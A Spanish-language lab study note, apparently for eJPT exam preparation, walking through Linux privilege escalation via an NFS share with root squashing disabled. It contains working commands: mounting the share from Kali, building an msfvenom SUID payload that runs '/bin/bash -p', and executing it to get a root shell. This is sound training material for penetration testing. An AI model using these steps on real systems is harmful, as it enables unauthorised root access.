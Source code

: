 
- Los archivos creados mediante NFS heredan el ID del usuario remoto. Si el usuario es root y la eliminación de raíz está habilitada, el ID se establecerá en el usuario "nadie".

- Verifique la configuración del recurso compartido NFS en la máquina virtual Debian:

```
cat /etc/exports
```
Tenga en cuenta que el recurso compartido /tmp tiene desactivada la eliminación de raíces.

- En su caja Kali, cambie a su usuario root si aún no está ejecutando como root:

```
sudo su
```

- Usando el usuario root de Kali, cree un punto de montaje en su caja Kali y monte el recurso compartido /tmp (actualice la IP en consecuencia): mkdir/tmp/nfs montar -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs

```
mkdir /tmp/nfs  
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

- Aún usando el usuario root de Kali, genere una carga útil usando msfvenom y guárdela en el recurso compartido montado (esta carga útil simplemente llama a /bin/bash):

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

- Aún usando el usuario root de Kali, haga que el archivo sea ejecutable y establezca el permiso SUID:

```
chmod +xs /tmp/nfs/shell.elf
```

- De vuelta en la máquina virtual Debian, como cuenta de usuario con pocos privilegios, ejecute el archivo para obtener un shell raíz:

```
/tmp/shell.elf
```

enlace:
[[Preparacion-Ejpt]]

